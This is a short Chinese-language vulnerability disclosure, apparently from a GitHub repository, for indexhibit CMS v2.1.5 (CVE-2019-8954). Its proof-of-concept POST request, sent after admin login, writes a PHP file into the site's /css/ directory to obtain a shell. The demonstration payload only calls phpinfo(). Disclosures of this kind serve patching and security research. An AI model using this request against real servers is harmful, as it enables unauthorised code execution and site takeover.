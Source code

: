 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|indexhibit cms v2.1.5 直接编辑php文件getshell|2019-02-20|yc（3365487579@qq.com）|[https://www.indexhibit.org/](https://www.indexhibit.org/) | [https://www.indexhibit.org/](https://www.indexhibit.org/) |v2.1.5| [CVE-2019-8954](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8954)|  

#### 漏洞概述  

> indexhibit CMS 2.1.5版本存在一个直接编辑php文件的漏洞，导致getshell。   

### POC实现代码如下：  

> 当我们登录进后台后，向/ndxzstudio/?a=system  
> post数据：

``` raw
upd_jxcode=true&v=%253C%253Fphp%2520phpinfo()%253B%253F%253E&id=%2Fcss%2Faudio.php
```
> 即可在/css/目录写入一个php文件audio.php。  


> 成功getshell：


